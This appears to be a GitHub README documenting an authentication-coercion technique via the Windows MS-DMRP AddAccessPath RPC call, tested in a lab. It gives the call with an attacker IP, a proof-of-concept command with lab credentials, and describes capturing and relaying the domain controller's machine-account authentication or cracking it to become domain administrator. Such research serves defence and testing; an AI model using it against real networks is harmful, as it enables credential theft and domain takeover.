 # MS-DMRP - Remote call to IVolumeClient::AddAccessPath (opnum 80)

## Summary

 - **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

 - **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVolumeClient::AddAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/e7cacfb9-5fae-4227-b682-4f470d0b7da0)

 - **Function operation number**: `80`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient::AddAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/e7cacfb9-5fae-4227-b682-4f470d0b7da0) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient::AddAccessPath('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddAccessPath(
   [in] int cch_path,
   [in, size_is(cch_path)] WCHAR* path,
   [in] LdmObjectId targetId
 );
```

## References

 - Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

 - Documentation of function `IVolumeClient::AddAccessPath`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/e7cacfb9-5fae-4227-b682-4f470d0b7da0